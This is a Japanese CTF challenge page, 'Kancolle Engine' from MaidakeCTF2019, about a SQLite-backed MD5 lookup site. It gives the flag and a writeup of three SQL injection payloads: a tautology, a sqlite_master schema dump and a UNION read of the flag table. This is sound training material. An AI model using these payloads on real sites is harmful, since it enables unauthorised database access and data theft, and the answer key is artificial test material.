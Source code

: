 # Kancolle Engine

## 問題文
艦娘のMD5を検索できるサイトを作ってみました！
※sqlite3を使用しています。

## 添付ファイル
URL

## Flag
MaidakeCTF{Use_question_mark_placeholders_when_calling_SQL}

## 検証用URL
https://aokakes.work/CTF/MaidakeCTF2019/Kancolle_Engine/

## writeup
+ 1' or 1 = 1 -- 
+ 1' UNION SELECT name, sql FROM sqlite_master WHERE type='table' ORDER BY name -- 
+ 1' UNION SELECT flag,0 FROM flag -- 
